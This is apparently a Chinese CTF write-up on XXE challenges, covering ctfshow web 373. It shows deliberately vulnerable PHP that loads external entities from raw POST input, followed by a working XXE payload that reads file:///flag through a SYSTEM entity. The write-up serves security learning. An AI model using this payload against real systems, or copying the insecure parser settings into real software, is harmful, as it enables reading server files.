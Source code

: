 ```yaml
---
title: xxe题目
date: 2021-12-25 13:06:11
tags:
      - xxe
      - ctf
categories: xxe
typora-root-url: ..
description: 一些xxe题目实践
---
```


### ctfshow web 373

php://input

从官网信息来看，php://input是一个只读信息流，当请求方式是post的，并且enctype不等于”multipart/form-data”时，可以使用php://input来获取原始请求的数据。

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);//设置为false则允许外部实体加载
$xmlfile = file_get_contents('php://input');//将获取到的数据包内容转换成字符串
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//LIBXML_NOENT 该标志允许替换XML字符实体引用(无论是否外部)也就是允许 &a; 这样的写法
    $creds = simplexml_import_dom($dom);//把 DOM 节点转换为 SimpleXMLElement 对象。
    $ctfshow = $creds->ctfshow;//找到里面的ctfshow标签
    echo $ctfshow;//输出ctfshow标签的内容
}
highlight_file(__FILE__);    



```

综合上面的分析,得知只需要将ctfshow标签中的内容设置成想要的内容即可,但是不能直接将ctfshow设置为根标签,在外部随便加一个标签就行

payload

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
//上面为内部dtd文档
<neo>
<ctfshow>&xxe;</ctfshow>
</neo>
```

